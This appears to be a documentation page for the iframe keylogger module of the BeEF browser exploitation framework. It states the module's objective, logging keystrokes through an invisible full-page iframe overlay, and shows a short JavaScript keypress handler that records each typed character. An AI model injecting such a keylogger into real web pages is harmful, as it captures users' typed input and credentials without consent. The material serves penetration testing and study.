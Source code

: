 ## Summary

* **Objective**: Log keys through a 100% iframe overlay
* **Authors**: antisnatchor
* **Browsers**: all except Opera

* [Code](https://github.com/beefproject/beef/tree/master/modules/misc/iframe_keylogger)

## Internal Working

Adds a 100% size invisible iframe and an event listener that fires on keypress.

```js

    // add the pressed key to the keystroke stream array
    function keyPressHandler(evt) {
        evt = evt || window.event;
        if (evt) {
            var keyCode = evt.charCode || evt.keyCode;
            charLogged = String.fromCharCode(keyCode);
            stream.push(charLogged);
        }
    }


```

## Feedback


